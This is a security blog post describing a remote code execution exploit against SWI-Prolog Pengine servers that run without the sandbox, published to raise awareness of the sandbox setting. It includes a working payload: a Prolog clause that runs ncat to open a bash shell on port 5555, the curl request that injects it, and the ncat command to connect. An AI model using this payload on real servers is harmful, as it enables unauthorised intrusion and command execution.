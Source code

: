 ```yaml
---
title: An RCE Exploit for a Vulnerable Pengine Server
updated: 2021-07-09 17:25
---
```


In this blogpost, I present an exploit to obtain remote code execution (RCE) on a server that runs an SLD resolution service through the Prolog library \textit{Pengines}. The exploit uses the Prolog Transport Protocol (PLTP) over HTTP and works by exploiting a vulnerability in Pengine servers that are not sandboxed. The vulnerability allows a client to inject malicious Prolog code in the knowledge base of the SLD-resolver. I show how this can be used to obtain a reverse shell with netcat. Although the Prolog community is aware of this vulnerability, to the best of my knowledge, this is the first report that demonstrates how the vulnerability can be exploited by an adversary. My goal is that this report can increase awareness among Pengine users and make them more inclined to use the sandbox security mechanism to prevent the exploit. The code is available here [https://github.com/Limmen/Pengine_RCE_Exploit](https://github.com/Limmen/Pengine_RCE_Exploit).

### Overview of Pengines

The developed exploit uses exploits a capability in non-sandboxed Pengine servers that allows a client to upload Prolog code with Horn clauses that gets injected into the knowledge base of the Prolog server. After injecting a malicious Horn-clause into the Prolog knowledge base, the client can send a query to the Pengine server to ask the server to prove the malicious Horn-clause using SLD-resolution. This causes the exploit to be invoked and yields the client a reverse shell to the server where arbitrary bash commands can be executed.

Pengines is short for Prolog Engines. Pengines is a library in SWI-Prolog that allows you to perform SLD resolution at a remote Prolog server [1]. With Pengines, a Prolog server can export its predicates to be remote clients (see figure below). This means that the clients can resolve queries and prove statements from remote. The Prolog server is accessible through a protocol called the Prolog Transport Protocol (PLTP) which runs over HTTP.

![A Pengines server and client](/assets/pengine1.png "A Pengines server and client")

#### Sandboxing and Security
The Pengines library supports sandboxing. This mechanism can be used to declare the predicates at the Prolog server that are are deemed to be "safe" to be exported to remote clients. The safe predicates then get executed in a sandboxed environment, where unsafe predicates are not available (see figure below).

![A sandboxed Pengines server](/assets/pengine2.png "A sandboxed Pengines server")

### The Exploit
The exploit uses the following setup. A vulnerable Pengines server is running on $172.17.0.2$ and listens on for PLTP requests on port $4000$. The Pengines server has a set of Prolog predicates that can be used to resolve Sudokus using constraint logic programming. To use this service, the client can first upload a sudoku problem, e.g:

```prolog
problem(1, [[_,_,_,_,_,_,_,_,_],
            [_,_,_,_,_,3,_,8,5],
            [_,_,1,_,2,_,_,_,_],
            [_,_,_,5,_,7,_,_,_],
            [_,_,4,_,_,_,1,_,_],
            [_,9,_,_,_,_,_,_,_],
            [5,_,_,_,_,_,_,7,3],
            [_,_,2,_,1,_,_,_,_],
            [_,_,_,_,4,_,_,_,9]]).
```
Then, after uploading a sudoku problem, the client can issue queries against the Pengine server for solving the Sudoku. For example:
```
problem(1, Rows), sudoku(Rows).
```
The Pengine server will then perform SLD resolution to resolve the query and return the variable ``Rows'' with the solution to the Sudoku (see figure below).

![A Pengines server acting as a Sudoku resolver.](/assets/pengine3.png "A Pengines server acting as a Sudoku resolver.")

#### The Vulnerability
The Pengines server does not use a sandbox to execute the logic to solve the sudoku. Thus, the server is vulnerable to attacks that use unsafe predicates. That is, while the Pengine server will fill its intended purpose and solve sudokus for benign clients, it can also be used by adversarial clients to execute malicious code.

#### Payload of the Exploit
To exploit the vulnerable server, a client can inject malicious Prolog code in the remote server when uploading the Sudoku problem. Specifically, instead of just uploading a Sudoku problem defined in Prolog code, the client can add a side-effect to the Prolog code that will execute malicious code.

The payload of the exploit is as follows:
```prolog
problem(1, [[_,_,_,_,_,_,_,_,_],
            [_,_,_,_,_,3,_,8,5],
            [_,_,1,_,2,_,_,_,_],
            [_,_,_,5,_,7,_,_,_],
            [_,_,4,_,_,_,1,_,_],
            [_,9,_,_,_,_,_,_,_],
            [5,_,_,_,_,_,_,7,3],
            [_,_,2,_,1,_,_,_,_],
            [_,_,_,_,4,_,_,_,9]]):-
	shell("ncat -n -v -l -p 5555 -e /bin/bash &").
```
In the above Prolog code, in addition to defining a Sudoku problem, a netcat process is created in the background.

Lastly, to perform the exploit, we have to send the payload of the exploit to the Pengine server, this can be done using the PLTP protocol and curl:

```bash
curl --header "Content-Type: application/json"
     --request POST
     --data $'{"application": "pengine_sandbox", "as": "problem(1, Rows), sudoku(Rows)",
              "chunk": 1, "destroy": true, "format":"json",
              "src_text": "problem(1,
              [[_,_,_,_,_,_,_,_,_],
              [_,_,_,_,_,3,_,8,5],
              [_,_,1,_,2,_,_,_,_],
              [_,_,_,5,_,7,_,_,_],
              [_,_,4,_,_,_,1,_,_],
              [_,9,_,_,_,_,_,_,_],
              [5,_,_,_,_,_,_,7,3],
              [_,_,2,_,1,_,_,_,_],
              [_,_,_,_,4,_,_,_,9]]):-
              \n\tshell(\\"ncat -n -v -l -p 5555 -e /bin/bash &\\").\n"}'
              http://127.0.0.1:4000/pengine/create
```
After sending the exploit, we can use netcat to connect and obtain a remote shell with the following command:
```
ncat -nv 127.0.0.1 5555
```

### Discussion and Implications

This exploit is only possible against Pengine servers that are not sandboxed. In early versions of the Pengines library, servers were not sandboxed by default. However, in the latest versions, the sandbox functionality is enabled by default. Thus the user has to actively disable the sandbox to make the vulnerability active. Hence, it is safe to say that the Prolog community is well aware of this vulnerability and how it can be exploited. However, to the best of my knowledge, this report provides the first detailed description of how such an exploit can be executed. My hope is that this report can increase awareness and make more people that use the Pengines library inclined to use the sandbox security mechanism to prevent this exploit.

### Conclusions

In this blogpost, I have presented a novel RCE exploit that uses a remote SLD resolver in Prolog to obtain a reverse shell. The exploit uses the PLTP protocol and a vulnerability in Pengine servers that are not sandboxed. The vulnerability allows the client to upload malicious Prolog code that gets injected into the knowledge base of the Prolog server. I have shown how this vulnerability can be exploited to obtain a reverse shell with netcat.
### References

- [1] Lager, Torbjörn and Jan Wielemaker (2014). “Pengines: Web Logic Programming Made Easy”. In:
CoRR abs/1405.3953. arXiv: 1405.3953. url: http://arxiv.org/abs/1405.3953.
